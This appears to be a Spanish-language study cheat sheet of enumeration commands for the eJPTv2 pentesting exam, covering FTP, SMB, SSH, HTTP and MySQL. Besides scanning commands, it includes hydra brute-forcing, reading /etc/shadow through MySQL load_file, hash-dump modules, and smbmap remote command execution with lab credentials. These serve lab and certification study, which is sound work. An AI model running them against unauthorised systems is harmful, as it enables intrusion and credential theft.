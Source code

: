P# Documentación: Comandos de enumeración

## Descripción
Esta documentación proporciona una introducción básica de los comandos útlices para el examen EJPTv2

### FTP File Transfer Protocol - 21
El Protocolo de Transferencia de Archivos (FTP) es un estándar de red para transferir archivos entre sistemas, operando en el puerto 21. Aunque es antiguo y carece de seguridad, permite cargar y descargar archivos en servidores remotos

```python
nmap -p21 --script ftp-anon IP
wget -m --no-passive ftp://anonymous:anonymous@IP
sudo nmap -sV -p21 -sC -A IP
nc IP 21
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

### Server Message Block (SMB) - 137,138,139,445
Server Message Block (SMB) es un protocolo de red que facilita el intercambio de archivos, impresoras y recursos entre sistemas. Opera en los puertos 137, 138, 139 y 445. A pesar de su utilidad, el puerto 445 es conocido por vulnerabilidades de seguridad.

```python
smbclient -N -L //IP (list shares)
nmap -sV -sC -p 445 IP
smbclient //IP/notes (connecting shares)
sudo nmap IP -sV -sC -p139,445
rpcclient -U "" IP (srvinfo, enumdomains, querydominfo, netshareenumall, enumdomusers)
smbmap -H IP -u "" -p "" (para revisar que permisos)
smbmap -H IP -u administrator -p smbserver_771 -x 'ipconfig'
smbmap -H IP -u Administrator -p 'smbserver_771' -r 'C$'
smbmap -H IP -u Administrator -p 'smbserver_771' --download 'C$\flag.txt'
crackmapexec smb IP --shares -u '' -p '' (revisar permisos)
./enum4linux-ng.py IP -A
enum4linux -u vagrant -p vagrant -U IP (enumerar usuarios)
nmap -p445 --script smb-protocols IP
nmap -p445 --script smb-security-mode IP
nmap -p445 --script smb-enum-sessions IP
nmap --script smb-os-discovery -p445 IP
enum4linux -r -u "admin" -p "password1" IP (obtener el ssid de los usuarios)
cp /usr/share/doc/python3-impacket/examples/psexec.py /root/Desktop

Tools: 
Psexec - conexión para smb que nos brinda shell
https://github.com/fortra/impacket/blob/master/examples/psexec.py
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/wordlists/metasploit/unix_passwords.txt
/usr/share/wordlists/metasploit/unix_users.txt
/usr/share/wordlists/rockyou.tx
```

### Secure Shell (SSH) - 22
Secure Shell (SSH) es un protocolo de red seguro que permite la comunicación y el acceso remoto a sistemas mediante el cifrado de datos. Utiliza el puerto 22 para establecer conexiones seguras y autenticadas, garantizando la confidencialidad y la integridad de la información transmitida.

```python
nmap --script ssh2-enum-algos IP
nmap --script ssh-hostkey --script-args ssh_hostkey=full IP
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=student" IP
find / -name "flag" (busca bandera)
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/common_passwords.txt
```

### HTTP - 80
Hypertext Transfer Protocol (HTTP) es el protocolo estándar de la web para la comunicación entre navegadores y servidores. Opera en el puerto 80, permitiendo la solicitud y transferencia de contenido web, como páginas, imágenes y otros recursos, a través de conexiones no cifradas.

```python
whatweb IP
http IP
dirb http://IP
nmap --script http-headers -sV -p 80 IP
nmap -sV -script banner IP
nmap –script http-enum -sV -p80 IP
nmap –script http-headers -sV -p80 IP
nmap --script http-methods --script-args http-methods.url-path=/webdav/ IP
curl http://IP/
auxiliary/scanner/http/apache_userdir_enum
auxiliary/scanner/http/brute_dirs
auxiliary/scanner/http/dir_scanner
auxiliary/scanner/http/dir_listing
auxiliary/scanner/http/http_put
auxiliary/scanner/http/files_dir
auxiliary/scanner/http/http_login
auxiliary/scanner/http/http_header
auxiliary/scanner/http/http_version
auxiliary/scanner/http/robots_txt
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/namelist.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/metasploit-framework/data/wordlists/common_users.txt
```

### MYSQL 3306
MySQL es un sistema de gestión de bases de datos relacional ampliamente utilizado. Utiliza el puerto 3306 para permitir conexiones entre aplicaciones y bases de datos, facilitando el almacenamiento y recuperación eficiente de datos estructurados.

```python
select load_file("/etc/shadow");
mysql -h IP -u root
use auxiliary/scanner/mysql/mysql_hashdump
nmap --script=mysql-empty-password -p 3306 IP
nmap --script=mysql-info -p 3306 IP
nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 IP
nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p 3306 IP
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt IP mysql
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt IP mysql
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```
